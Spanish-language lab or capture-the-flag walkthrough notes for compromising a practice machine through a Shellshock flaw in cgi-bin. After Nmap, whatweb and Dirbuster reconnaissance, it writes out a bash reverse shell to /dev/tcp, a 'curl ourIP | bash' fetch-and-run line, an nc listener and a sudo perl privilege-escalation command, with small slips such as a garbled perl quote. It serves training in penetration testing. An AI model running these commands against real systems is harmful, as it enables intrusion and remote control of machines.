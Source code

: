 Haciendo un reconocimiento con [[Nmap]], veremos que encontramos 3 puertos abiertos: el 80 y el 2222. Por lo general, usaremos el puerto 80.

Para obtener información del servidor (abierto en el puerto 80), usamos el comando `what web`:

> `whatweb ipMachine`

Para ver a cuáles directorios podemos acceder desde esta web, usaremos la aplicación **[[Dirbuster]]**:

1. Insertamos la URL (http://ip:port).

2. Ponemos 50 hilos.

3. En "FIle with the list of dirs/files", buscamos con "browse" y elegimos el siguiente path: "/usr/share/wordlists/dirbuster/**medium**" (casi siempre escogeremos el medium), y le damos a Start.
 
4. En esta máquina, encontramos el directorio "cgi-bin"... Si investigamos sobre este directorio, veremos que es una vulnerabilidad que podemos explotar, y que dentro de este encontramos archivos binarios.
 
5. Si hacemos otra búsqueda con [[Dirbuster]], pero lo configuramos para que empiece por "/cgi-bin" y que busque archivos "sh, py", nos dará los archivos binarios que podremos ejecutar ([[reverse shell]]).
 
6. Ahora que sabemos que podemos hacer reverse shell, buscamos en github el repositorio de "[[shellshock]]" y buscamos la línea que nos permita entrar en el sistema.
 
7.  Con la línea de código en la terminal, cambiamos primero la parte de la ip y la del nombre del archivo binario ejecutable.
 
8. En lo de "/bin/bash" podremos ejecutar el comando siguiente que nos salga a esto, podemos poner un whoami y ver lo que ocurre... ¡Funciona! Pues vamos a conseguir entrar:
 
9. Creamos un archivo llamado "[[index.html]]" (por ejemplo), y escribimos lo siguiente de código:

> `#!/bin/bash`
> [[bash -i >& /dev/tcp/ourIP/port 0>&1]]

10. Nos abrimos un servidor web con python en el sitio en el que tengamos este archivo.

11. Nos ponemos en escucha en el puerto en el que hemos puesto en el "[[index.html]]":

> [[sudo nc -nlvp port]]

12. En el código ejecutable, cambiaremos el código ejecutable por el siguiente:

> [[curl ourIP | bash]]

13. Ya estamos dentro, pero ahora nos falta escalar privilegios:

Usamos el comando `sudo -l`

Hacemos `sudo /usr/bin/perl -e 'exec "/bin"bash'`

Ahora `script /dev/null -c bash`
>[[script /dev/null -c bash]]



